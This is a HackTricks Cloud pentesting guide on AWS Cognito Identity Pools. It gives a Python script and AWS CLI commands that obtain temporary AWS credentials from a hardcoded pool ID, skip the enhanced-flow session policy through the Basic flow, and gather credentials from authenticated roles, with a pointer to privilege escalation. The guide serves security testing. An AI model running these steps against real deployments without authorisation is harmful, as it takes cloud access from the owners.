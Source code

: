 # Cognito Identity Pools

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Basic Information

With an identity pool, your users can **obtain temporary AWS credentials to access AWS services**, such as Amazon S3 and DynamoDB. Identity pools support anonymous guest users, as well as the following identity providers that you can use to authenticate users for identity pools:

* Amazon Cognito user pools
* Social sign-in with Facebook, Google, Login with Amazon, and Sign in with Apple
* OpenID Connect (OIDC) providers
* SAML identity providers
* Developer authenticated identities

### Cognito Sync

To generate Identity Pool sessions, you first need to **generate and Identity ID**. This Identity ID is the **identification of the session of that user**. These identifications can have up to 20 datasets that can store up to 1MB of key-value pairs.

This is **useful to keep information of a user** (who will be always using the same Identity ID).

Moreover, the service **cognito-sync** is the service that allow to **manage and syncronize this information** (in the datasets, sending info in streams and SNSs msgs...).

## Accessing IAM Roles

### Unauthenticated

The only thing an attacker need to know to **get AWS credentials** in a Cognito app as unauthenticated user is the **Identity Pool ID**, and this **ID must be hardcoded** in the web/mobile **application** for it to use it. An ID looks like this: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (it's not bruteforceable).

{% hint style="success" %}
The **IAM Cognito unathenticated role created via is called** by default `Cognito_<Identity Pool name>Unauth_Role`
{% endhint %}

If you find an Identity Pools ID hardcoded and it allows unauthenticated users, you can get AWS credentials with:

```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
    print(f"Not valid id: {id_pool_id}")
    exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```

Or you could use the following **aws cli commands**:

```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```

{% hint style="warning" %}
Note that by default an unauthenticated cognito **user CANNOT have any permission, even if it was assigned via a policy**. Check the followin section.
{% endhint %}

### Enhanced vs Basic Authentication flow

The previous section followed the **default enhanced authentication flow**. This flow sets a **restrictive** [**session policy**](../../aws-basic-information/#session-policies) to the IAM role session generated. This policy will only allow the session to [**use the services from this list**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) **** (even if the role had access to other services).

However, there is a way to bypass this, if the **Identity pool has "Basic (Classic) Flow" enabled**, the user will be able to obtain a session using that flow which **won't have that restrictive session policy**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn <role_arn> --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
If you receive this **error**, it's because the **basic flow is not enabled (default)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Having a set of IAM credentials you should check [which access you have](../../#whoami) and try to [escalate privileges](../../aws-privilege-escalation/).

### Authenticated

{% hint style="info" %}
Remember that **authenticated users** will be probably granted **different permissions**, so if you can **sign up inside the app**, try doing that and get the new credentials.
{% endhint %}

There could also be **roles** available for **authenticated users accessing the Identity Poo**l.

For this you might need to have access to the **identity provider**. If that is a **Cognito User Pool**, maybe you can abuse the default behaviour and **create a new user yourself**.

{% hint style="success" %}
The **IAM Cognito athenticated role created via is called** by default `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

Anyway, the **following example** expects that you have already logged in inside a **Cognito User Pool** used to access the Identity Pool (don't forget that other types of identity providers could also be configured).

```bash
aws cognito-identity get-id \
    --identity-pool-id <identity_pool_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>

# Get the identity_id from the previous commnad response
aws cognito-identity get-credentials-for-identity \
    --identity-id <identity_id> \
    --logins cognito-idp.<region>.amazonaws.com/<YOUR_USER_POOL_ID>=<ID_TOKEN>
```

{% hint style="warning" %}
It's possible to **configure different IAM roles depending on the identity provide**r the user is being logged in or even just depending **on the user** (using claims). Therefore, if you have access to different users through the same or different providers, if might be **worth it to login and access the IAM roles of all of them**.
{% endhint %}

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* If you want to see your **company advertised in HackTricks** or if you want access to the **latest version of the PEASS or download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
